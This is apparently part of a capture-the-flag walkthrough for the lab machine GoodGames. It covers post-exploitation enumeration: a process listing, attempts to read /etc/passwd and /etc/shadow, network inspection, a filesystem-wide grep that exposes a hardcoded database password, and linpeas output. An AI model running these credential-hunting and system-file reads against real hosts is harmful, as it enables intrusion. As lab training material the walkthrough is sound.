root        75  0.0  0.0      0     0 ?        S    Jan09   0:00 [irq/44-pciehp]
root        76  0.0  0.0      0     0 ?        S    Jan09   0:00 [irq/45-pciehp]
root        77  0.0  0.0      0     0 ?        S    Jan09   0:00 [irq/46-pciehp]
root        78  0.0  0.0      0     0 ?        S    Jan09   0:00 [irq/47-pciehp]
root        79  0.0  0.0      0     0 ?        S    Jan09   0:00 [irq/48-pciehp]
root        80  0.0  0.0      0     0 ?        S    Jan09   0:00 [irq/49-pciehp]
root        81  0.0  0.0      0     0 ?        S    Jan09   0:00 [irq/50-pciehp]
root        82  0.0  0.0      0     0 ?        S    Jan09   0:00 [irq/51-pciehp]
root        83  0.0  0.0      0     0 ?        S    Jan09   0:00 [irq/52-pciehp]
root        84  0.0  0.0      0     0 ?        S    Jan09   0:00 [irq/53-pciehp]
root        85  0.0  0.0      0     0 ?        S    Jan09   0:00 [irq/54-pciehp]
root        86  0.0  0.0      0     0 ?        S    Jan09   0:00 [irq/55-pciehp]
root        87  0.0  0.0      0     0 ?        I<   Jan09   0:00 [ipv6_addrconf]
root        97  0.0  0.0      0     0 ?        I<   Jan09   0:00 [kstrp]
root       143  0.0  0.0      0     0 ?        I<   Jan09   0:00 [ata_sff]
root       144  0.0  0.0      0     0 ?        S    Jan09   0:00 [scsi_eh_0]
root       145  0.0  0.0      0     0 ?        S    Jan09   0:00 [scsi_eh_1]
root       146  0.0  0.0      0     0 ?        I<   Jan09   0:00 [scsi_tmf_1]
root       147  0.0  0.0      0     0 ?        S    Jan09   0:00 [scsi_eh_2]
root       148  0.0  0.0      0     0 ?        I<   Jan09   0:00 [scsi_tmf_2]
root       151  0.0  0.0      0     0 ?        I<   Jan09   0:00 [scsi_tmf_0]
root       152  0.0  0.0      0     0 ?        I<   Jan09   0:00 [vmw_pvscsi_wq_0]
root       184  0.0  0.0      0     0 ?        I<   Jan09   0:00 [kworker/1:1H-kblockd]
root       241  0.0  0.0      0     0 ?        I<   Jan09   0:00 [kworker/0:1H-kblockd]
root       414  0.0  0.0      0     0 ?        I<   Jan09   0:00 [kworker/u5:0]
root       419  0.0  0.0      0     0 ?        S    Jan09   0:00 [jbd2/sda1-8]
root       420  0.0  0.0      0     0 ?        I<   Jan09   0:00 [ext4-rsv-conver]
root       453  0.0  0.2  22308  8260 ?        Ss   Jan09   0:00 /lib/systemd/systemd-journald
root       469  0.0  0.1  21292  5256 ?        Ss   Jan09   0:00 /lib/systemd/systemd-udevd
root       508  0.0  0.2  47816 10704 ?        Ss   Jan09   0:00 /usr/bin/VGAuthService
systemd+   509  0.0  0.1  88836  6008 ?        Ssl  Jan09   0:02 /lib/systemd/systemd-timesyncd
root       510  0.0  0.1 236980  8052 ?        Ssl  Jan09   0:45 /usr/bin/vmtoolsd
root       574  0.0  0.0      0     0 ?        I<   Jan09   0:00 [nfit]
root       575  0.0  0.0      0     0 ?        I<   Jan09   0:00 [ttm_swap]
root       576  0.0  0.0      0     0 ?        S    Jan09   0:00 [irq/16-vmwgfx]root       586  0.0  0.0   6680  2840 ?        Ss   Jan09   0:00 /usr/sbin/cron -f
message+   587  0.0  0.1   7256  4424 ?        Ss   Jan09   0:03 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only
root       588  0.0  0.1 219760  4456 ?        Ssl  Jan09   0:00 /usr/sbin/rsyslogd -n -iNONE
root       589  0.0  0.1  15272  7220 ?        Ss   Jan09   0:00 /lib/systemd/systemd-logind
root       705  0.0  0.5 195416 20748 ?        Ss   Jan09   0:02 php-fpm: master process (/etc/php/7.4/fpm/php-fpm.conf)
root       710  0.0  1.1 1344724 46092 ?       Ssl  Jan09   0:46 /usr/bin/containerd
root       712  0.0  0.0   5780  1660 tty1     Ss+  Jan09   0:00 /sbin/agetty -o -p -- \u --noclear tty1 linux
ww         787  0.0  0.2 195700  8512 ?        S    Jan09   0:00 php-fpm: pool w--More--
www-data   788  0.0  0.2 195700  8512 ?        S    Jan09   0:00 php-fpm: pool www
root       807  0.0  0.2  15332  8244 ?        Ss   Jan09   0:01 /usr/sbin/apache2 -k start
mysql      827  0.1 10.2 1740804 413472 ?      Ssl  Jan09   1:23 /usr/sbin/mysqld
root       862  0.0  2.1 1457176 85540 ?       Ssl  Jan09   0:13 /usr/bin/dockerd -H fd:// --containerd=/run/containerd/containerd.sock
root      1068  0.0  1.4 637244 58356 ?        Ssl  Jan09   0:04 PM2 v5.1.2: God Daemon (/root/.pm2)
www-data  1275  0.0  1.2 423740 50996 ?        Ss   Jan09   0:10 python3 /var/www/goodgames/goodgames.wsgi
root      1327  0.0  0.2 1148904 9444 ?        Sl   Jan09   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 8085 -container-ip 172.19.0.2 -container-port 8085
root      1341  0.0  0.3 711444 14300 ?        Sl   Jan09   0:03 /usr/bin/containerd-shim-runc-v2 -namespace moby -id 3a453ab39d3df444e9b33e4c1d9f2071827b3b7b20a8d3357b7754a84b06685f -address /run/containerd/containerd.sock
root      1362  0.0  1.3 392044 54868 ?        Ss   Jan09   0:11 python3 project/run.py
root      1460  0.0  0.1  12328  7004 ?        Ss   Jan09   0:00 sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
root      1967  0.0  0.0      0     0 ?        Z    Jan09   0:00 [sh] <defunct>
root      1970  0.0  0.0      0     0 ?        Z    Jan09   0:04 [bacon] <defunct>
root      1975  0.0  0.0      0     0 ?        Zs   Jan09   0:00 [bash] <defunct>
augustus  1983  0.0  0.2  16932  8928 ?        Ss   Jan09   0:00 /lib/systemd/systemd --user
augustus  1984  0.0  0.0 168308  2404 ?        S    Jan09   0:00 (sd-pam)
augustus  2017  0.3  0.6 726224 24788 ?        Sl   Jan09   1:41 ./bacon
augustus  2075  0.0  0.0      0     0 ?        Z    Jan09   0:00 [wget] <defunct>
augustus  2076  0.0  0.0      0     0 ?        Zs   Jan09   0:00 [bash] <defunct>
augustus 11687  0.0  0.0  81028  3412 ?        SLs  Jan09   0:00 /usr/bin/gpg-agent --supervised
augustus 21567  0.0  0.0      0     0 ?        Zs   Jan09   0:00 [bash] <defunct>
augustus 21669  0.0  0.1   8608  5360 pts/3    Ss   Jan09   0:00 /bin/bash
root     21680  0.0  0.0      0     0 ?        I    Jan09   0:00 [kworker/u4:2-events_unbound]
root     22210  0.0  0.0      0     0 ?        I    Jan09   0:00 [kworker/0:0-events]
root     22237  0.0  0.0      0     0 ?        I    00:00   0:04 [kworker/1:2-events]
www-data 22238  0.0  0.1  15656  4248 ?        S    00:00   0:00 /usr/sbin/apache2 -k start
www-data 22239  0.0  0.4 1223568 16856 ?       Sl   00:00   0:00 /usr/sbin/apache2 -k start
www-data 22240  0.0  0.3 1223816 14864 ?       Sl   00:00   0:00 /usr/sbin/apache2 -k start
root     22395  0.0  0.0      0     0 ?        I    00:44   0:00 [kworker/1:1]
root     22452  0.0  0.0      0     0 ?        I    01:09   0:00 [kworker/0:1-cgroup_destroy]
root     22885  0.0  0.0      0     0 ?        I    02:01   0:00 [kworker/u4:1-events_unbound]
augustus 22893  0.0  0.0  10708  3144 pts/3    R+   02:08   0:00 ps aux
augustus 22894  0.0  0.0   5540   784 pts/3    S+   02:08   0:00 more
```

## User Enumeration

> whoami

'''
augustus@GoodGames:~$ whoami
augustus
'''

> id

'''
augustus@GoodGames:~$ id
uid=1000(augustus) gid=1000(augustus) groups=1000(augustus)
'''

> sudo -l

```
augustus@GoodGames:~$ sudo -l
bash: sudo: command not found
```

> cat /etc/passwd

```
augustus@GoodGames:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
augustus:x:1000:1000:augustus,,,:/home/augustus:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:106:113:MySQL Server,,,:/var/lib/mysql:/bin/false
```

> cat /etc/shadow

```
augustus@GoodGames:~$ cat /etc/shadow
cat: /etc/shadow: Permission denied
```

> cat /etc/group

```
augustus@GoodGames:~$ cat /etc/group
root:x:0:    
daemon:x:1
bin:x:2:
sys:x:3:
adm:x:4:
tty:x:5:
disk:x:6:
lp:x:7:
mail:x:8:
news:x:9:
uucp:x:10:
man:x:12:
proxy:x:13:
kmem:x:15:
dialout:x:20:
fax:x:21:
voice:x:22:
cdrom:x:24:
floppy:x:25:
tape:x:26:
sudo:x:27:
audio:x:29:
dip:x:30:
www-data:x:33:
backup:x:34:
operator:x:37:
list:x:38:
irc:x:39:
src:x:40:
gnats:x:41:
shadow:x:42:
utmp:x:43:
video:x:44:
sasl:x:45:
plugdev:x:46:
staff:x:50:
games:x:60:
users:x:100:
nogroup:x:65534:
systemd-journal:x:101:
systemd-timesync:x:102:
systemd-network:x:103:
systemd-resolve:x:104:
input:x:105:
kvm:x:106:
render:x:107:
crontab:x:108:
netdev:x:109:
messagebus:x:110:
ssh:x:111:
augustus:x:1000:
systemd-coredump:x:999:
ssl-cert:x:112:
mysql:x:113:
docker:x:114:
```

## Network Enumeration

> ip a

```
augustus@GoodGames:~$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:4b:3c brd ff:ff:ff:ff:ff:ff
    inet 10.10.11.130/24 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:4b3c/64 scope global dynamic mngtmpaddr 
       valid_lft 86399sec preferred_lft 14399sec
    inet6 fe80::250:56ff:feb9:4b3c/64 scope link 
       valid_lft forever preferred_lft forever
3: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:aa:a6:e5:be brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
4: br-99993f3f3b6b: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:91:9b:25:90 brd ff:ff:ff:ff:ff:ff
    inet 172.19.0.1/16 brd 172.19.255.255 scope global br-99993f3f3b6b
       valid_lft forever preferred_lft forever
    inet6 fe80::42:91ff:fe9b:2590/64 scope link 
       valid_lft forever preferred_lft forever
6: veth1e2b4c6@if5: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master br-99993f3f3b6b state UP group default 
    link/ether b2:a1:69:b0:c0:5b brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet6 fe80::b0a1:69ff:feb0:c05b/64 scope link 
       valid_lft forever preferred_lft forever
```

> ip r

```
augustus@GoodGames:~$ ip r
default via 10.10.10.2 dev eth0 onlink 
10.10.11.0/24 dev eth0 proto kernel scope link src 10.10.11.130 
172.17.0.0/16 dev docker0 proto kernel scope link src 172.17.0.1 linkdown 
172.19.0.0/16 dev br-99993f3f3b6b proto kernel scope link src 172.19.0.1
```

> ip neigh

```
augustus@GoodGames:~$ ip neigh
172.19.0.2 dev br-99993f3f3b6b lladdr 02:42:ac:13:00:02 STALE
10.10.10.2 dev eth0 lladdr 00:50:56:b9:17:d8 REACHABLE
fe80::250:56ff:feb9:17d8 dev eth0 lladdr 00:50:56:b9:17:d8 router STALE
```

> netstat -ano

```
augustus@GoodGames:~$ netstat -ano                                                                                                                                                                      
Active Internet connections (servers and established)                                                                                                                                                   
Proto Recv-Q Send-Q Local Address           Foreign Address         State       Timer                                                                                                                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      off (0.00/0/0)                                                                                                          
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      off (0.00/0/0)                                                                                                          
tcp        0      0 127.0.0.1:8085          0.0.0.0:*               LISTEN      off (0.00/0/0)                                                                                                          
tcp        0      0 172.19.0.1:22           0.0.0.0:*               LISTEN      off (0.00/0/0)                                                                                                          
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      off (0.00/0/0)                                                                                                          
tcp        0    494 10.10.11.130:50988      10.10.14.5:443          ESTABLISHED on (0.09/0/0)                                                                                                           
tcp        0      0 10.10.11.130:38660      10.10.14.5:443          ESTABLISHED keepalive (14.37/0/0)                                                                                                   
tcp6       0      0 :::80                   :::*                    LISTEN      off (0.00/0/0)                                                                                                          
udp        0      0 10.10.11.130:45941      1.1.1.1:53              ESTABLISHED off (0.00/0/0)                                                                                                          
udp        0      0 10.10.11.130:53788      8.8.8.8:53              ESTABLISHED off (0.00/0/0)                                                                                                          
Active UNIX domain sockets (servers and established)                                                                                                                                                    
Proto RefCnt Flags       Type       State         I-Node   Path                       
unix  2      [ ACC ]     STREAM     LISTENING     16130    /run/containerd/containerd.sock.ttrpc
unix  2      [ ACC ]     STREAM     LISTENING     16134    /run/containerd/containerd.sock
unix  4      [ ]         DGRAM                    9805     /run/systemd/notify
unix  2      [ ACC ]     STREAM     LISTENING     13389    /run/dbus/system_bus_socket
unix  2      [ ACC ]     STREAM     LISTENING     13393    /var/run/docker.sock
unix  2      [ ACC ]     STREAM     LISTENING     9809     /run/systemd/private
unix  2      [ ]         DGRAM                    9822     /run/systemd/journal/syslog
unix  2      [ ACC ]     STREAM     LISTENING     18018    /var/run/mysqld/mysqld.sock
unix  6      [ ]         DGRAM                    9826     /run/systemd/journal/dev-log
unix  2      [ ACC ]     SEQPACKET  LISTENING     9830     /run/udev/control          
unix  2      [ ACC ]     STREAM     LISTENING     9838     /run/systemd/journal/stdout
unix  8      [ ]         DGRAM                    9841     /run/systemd/journal/socket
unix  2      [ ]         DGRAM                    57209    /run/user/1000/systemd/notify                                                                                                                
unix  2      [ ACC ]     STREAM     LISTENING     16250    /var/run/docker/metrics.sock
unix  2      [ ACC ]     STREAM     LISTENING     57213    /run/user/1000/systemd/private
unix  2      [ ACC ]     STREAM     LISTENING     57219    /run/user/1000/gnupg/S.gpg-agent
unix  2      [ ACC ]     STREAM     LISTENING     57221    /run/user/1000/gnupg/S.gpg-agent.browser
unix  2      [ ACC ]     STREAM     LISTENING     57223    /run/user/1000/gnupg/S.dirmngr
unix  2      [ ACC ]     STREAM     LISTENING     57225    /run/user/1000/gnupg/S.gpg-agent.ssh
unix  2      [ ACC ]     STREAM     LISTENING     57227    /run/user/1000/bus
unix  2      [ ACC ]     STREAM     LISTENING     57229    /run/user/1000/gnupg/S.gpg-agent.extra
unix  2      [ ACC ]     STREAM     LISTENING     18573    /run/containerd/s/ba8e340b3994e93fb84039a5ad095c5b373251b52e32c0508926f79c2708ffa5
unix  2      [ ACC ]     STREAM     LISTENING     17069    /var/run/docker/libnetwork/882320925cb9.sock
unix  2      [ ACC ]     STREAM     LISTENING     14001    /run/php/php7.4-fpm.sock
unix  2      [ ACC ]     STREAM     LISTENING     9906     /run/systemd/fsck.progress     
unix  2      [ ACC ]     STREAM     LISTENING     13013    /var/run/vmware/guestServicePipe
unix  2      [ ACC ]     STREAM     LISTENING     17902    /var/run/mysqld/mysqlx.sock
unix  2      [ ]         DGRAM                    16184    @00001
unix  2      [ ACC ]     STREAM     LISTENING     17904    /root/.pm2/pub.sock
unix  2      [ ACC ]     STREAM     LISTENING     17905    /root/.pm2/rpc.sock
unix  3      [ ]         STREAM     CONNECTED     16139    /run/systemd/journal/stdout
unix  3      [ ]         STREAM     CONNECTED     11840    
unix  3      [ ]         STREAM     CONNECTED     17305                               
unix  2      [ ]         DGRAM                    11943    
unix  3      [ ]         STREAM     CONNECTED     17307    
unix  3      [ ]         STREAM     CONNECTED     11841    /run/systemd/journal/stdout
unix  3      [ ]         STREAM     CONNECTED     13409    
unix  3      [ ]         STREAM     CONNECTED     17310    
unix  3      [ ]         STREAM     CONNECTED     17312    
unix  2      [ ]         STREAM     CONNECTED     16847    
unix  3      [ ]         DGRAM                    11945    
unix  3      [ ]         DGRAM                    11946    
unix  3      [ ]         STREAM     CONNECTED     16482    
unix  3      [ ]         STREAM     CONNECTED     17309    
unix  3      [ ]         STREAM     CONNECTED     17306    
unix  3      [ ]         STREAM     CONNECTED     11779    
unix  2      [ ]         DGRAM                    11381    
unix  2      [ ]         STREAM     CONNECTED     18649    
unix  3      [ ]         STREAM     CONNECTED     12422    /run/systemd/journal/stdout
unix  3      [ ]         STREAM     CONNECTED     17311    
unix  3      [ ]         DGRAM                    11948    
unix  3      [ ]         STREAM     CONNECTED     11378    
unix  3      [ ]         STREAM     CONNECTED     17308    
unix  3      [ ]         STREAM     CONNECTED     13545    /run/dbus/system_bus_socket
unix  3      [ ]         DGRAM                    11947    
unix  3      [ ]         STREAM     CONNECTED     14345    /run/systemd/journal/stdout
unix  2      [ ]         DGRAM                    10084    
unix  2      [ ]         DGRAM                    57134    
unix  3      [ ]         STREAM     CONNECTED     13257    
unix  2      [ ]         DGRAM                    57137    
unix  3      [ ]         STREAM     CONNECTED     11780    /run/systemd/journal/stdout
unix  3      [ ]         DGRAM                    57211    
unix  3      [ ]         STREAM     CONNECTED     18660    
unix  3      [ ]         STREAM     CONNECTED     13258    /run/systemd/journal/stdout
unix  3      [ ]         STREAM     CONNECTED     57215    
unix  3      [ ]         STREAM     CONNECTED     19057    
unix  3      [ ]         STREAM     CONNECTED     18584    /run/containerd/s/ba8e340b3994e93fb84039a5ad095c5b373251b52e32c0508926f79c2708ffa5
unix  3      [ ]         DGRAM                    57212    
unix  3      [ ]         STREAM     CONNECTED     15402    
unix  2      [ ]         DGRAM                    12355    
unix  3      [ ]         STREAM     CONNECTED     56139    /run/dbus/system_bus_socket
unix  3      [ ]         STREAM     CONNECTED     12621    
unix  3      [ ]         STREAM     CONNECTED     18227    
unix  3      [ ]         STREAM     CONNECTED     14510    
unix  3      [ ]         STREAM     CONNECTED     19748    /run/systemd/journal/stdout
unix  3      [ ]         STREAM     CONNECTED     15404    /run/systemd/journal/stdout
unix  3      [ ]         STREAM     CONNECTED     18661    /run/containerd/containerd.sock.ttrpc
unix  3      [ ]         STREAM     CONNECTED     14343    
unix  3      [ ]         STREAM     CONNECTED     16255    /run/containerd/containerd.sock
unix  3      [ ]         STREAM     CONNECTED     13541    
unix  3      [ ]         STREAM     CONNECTED     16267    
unix  3      [ ]         STREAM     CONNECTED     16254    
unix  2      [ ]         DGRAM                    16138    
unix  2      [ ]         DGRAM                    19682    
unix  3      [ ]         STREAM     CONNECTED     13542    
unix  3      [ ]         STREAM     CONNECTED     13999    
unix  3      [ ]         STREAM     CONNECTED     11871    /run/systemd/journal/stdout
unix  2      [ ]         DGRAM                    16185    
unix  3      [ ]         STREAM     CONNECTED     14000    
unix  3      [ ]         STREAM     CONNECTED     16269    /run/containerd/containerd.sock
unix  2      [ ]         DGRAM                    13411    
unix  3      [ ]         DGRAM                    11384    
unix  2      [ ]         DGRAM                    12632    
unix  3      [ ]         STREAM     CONNECTED     57128    
unix  3      [ ]         DGRAM                    9807     
unix  3      [ ]         STREAM     CONNECTED     13655    /run/dbus/system_bus_socket
unix  3      [ ]         DGRAM                    9808     
unix  2      [ ]         DGRAM                    13531    
unix  3      [ ]         STREAM     CONNECTED     13131    
unix  3      [ ]         STREAM     CONNECTED     13543    /run/dbus/system_bus_socket
unix  3      [ ]         STREAM     CONNECTED     13654    
unix  2      [ ]         DGRAM                    14730    
unix  3      [ ]         DGRAM                    11385    
unix  3      [ ]         STREAM     CONNECTED     56108    /run/systemd/journal/stdout
unix  3      [ ]         STREAM     CONNECTED     143767   
unix  3      [ ]         STREAM     CONNECTED     14511    /run/systemd/journal/stdout
unix  3      [ ]         STREAM     CONNECTED     143768   /run/systemd/journal/stdout
```

## Password Hunting

> grep --color=auto -rnw '/' -ie "PASSWORD=" --color=always 2> /dev/null

```
...
/var/www/goodgames/main/main.py:12:        connector = mysql.connector.connect(user='main_admin', password='C4n7_Cr4cK_7H1S_pasSw0Rd!', host='127.0.0.1', database='main')
/var/www/goodgames/main/auth.py:18:        connector = mysql.connector.connect(user='main_admin', password='C4n7_Cr4cK_7H1S_pasSw0Rd!', host='127.0.0.1', database='main')
...
```

### linpeas
The following interesting entry was found in the linpeas network enumeration; **experimental-search** is new!
```
══════════════════════════════╣ Network Information ╠══════════════════════════════
                              ╚═════════════════════╝
╔══════════╣ Hostname, hosts and DNS
GoodGames
127.0.0.1	localhost goodgames.htb experimental-search.goodgames.htb
127.0.1.1	GoodGames

::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
nameserver 1.1.1.1
nameserver 8.8.8.8

```
resulted in adding the following to /etc/hosts:
```
127.0.0.1       localhost
...
10.10.11.130    goodgames.htb
10.10.11.130    internal-administration.goodgames.htb
10.10.11.130    experimental-search.goodgames.htb

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```
This appears to land you at the initial landing page of googdame.htb.
